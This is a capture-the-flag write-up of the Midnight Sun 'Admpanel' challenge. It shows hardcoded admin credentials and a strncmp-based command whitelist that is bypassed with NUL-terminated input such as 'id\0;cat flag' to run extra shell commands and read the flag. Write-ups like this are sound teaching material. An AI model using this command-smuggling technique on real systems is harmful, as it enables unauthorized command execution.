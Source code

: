 # Admpanel, Pwn, 58pts

## Problem

![Screen caption](admpanel0.png)


## Solution

When we connect to ```admpanel-01.play.midnightsunctf.se 31337```, we can see simple admin panel:

```
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 >
```

We can't execute any command, first we need to login.
We can find username and password (**admin** and **password**) saved in plaintext in source code:


![Screen caption](admpanel1.png)


After login in, we can execute command, but there is restriction to only one command - `id`:



```
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 1
  Input username: admin
  Input password: password
 > 2
  Command to execute: id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
 > 2
  Command to execute: ls
Any other commands than `id` have been disabled due to security concerns.
 >
```

Let's take a look at the code:


![Screen caption](admpanel2.png)



A line in code marked in green is where the condition is checked (is the command we pass in equals `id`).

This is the place where vulnerability which allows us to solve this challenge is hidden.

Let's take a look at `strncmp()` C function documentation first to figure out how we can abuse the code:


```
$ man strncmp


STRCMP(3)                BSD Library Functions Manual                STRCMP(3)

NAME
     strcmp, strncmp -- compare strings

LIBRARY
     Standard C Library (libc, -lc)

SYNOPSIS
     #include <string.h>

     int
     strcmp(const char *s1, const char *s2);

     int
     strncmp(const char *s1, const char *s2, size_t n);

DESCRIPTION
     The strcmp() and strncmp() functions lexicographically compare the null-terminated strings s1 and s2.

     The strncmp() function compares not more than n characters.  Because strncmp() is designed for comparing strings rather than binary data, characters that appear after a `\0'
     character are not compared.

RETURN VALUES
     The strcmp() and strncmp() functions return an integer greater than, equal to, or less than 0, according as the string s1 is greater than, equal to, or less than the string s2.
     The comparison is done using unsigned characters, so that `\200' is greater than `\0'.

SEE ALSO
     bcmp(3), memcmp(3), strcasecmp(3), strcoll(3), strxfrm(3), wcscmp(3)

STANDARDS
     The strcmp() and strncmp() functions conform to ISO/IEC 9899:1990 (``ISO C90'').

BSD                            October 11, 2001                            BSD
(END)

```

As we can see, `strncmp()` compares strings as long as the character is not `\0` (NULL).
So we can inject any command we want to execute by terminating `id` with NULL character and passing our command using any Bash chaining method:

```
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 1
  Input username: admin
  Input password: password
 > 2
  Command to execute: id\0;ls -l
total 24
-rwxr-x--- 1 root ctf 14408 Apr  3 13:09 chall
-r--r----- 1 root ctf    41 Apr  2 21:20 flag
-rwxr-x--- 1 root ctf    71 Apr  2 21:20 redir.sh
 > 2
  Command to execute: id\0;cat flag
midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}
 >
```

And that's all - flag is **midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}**
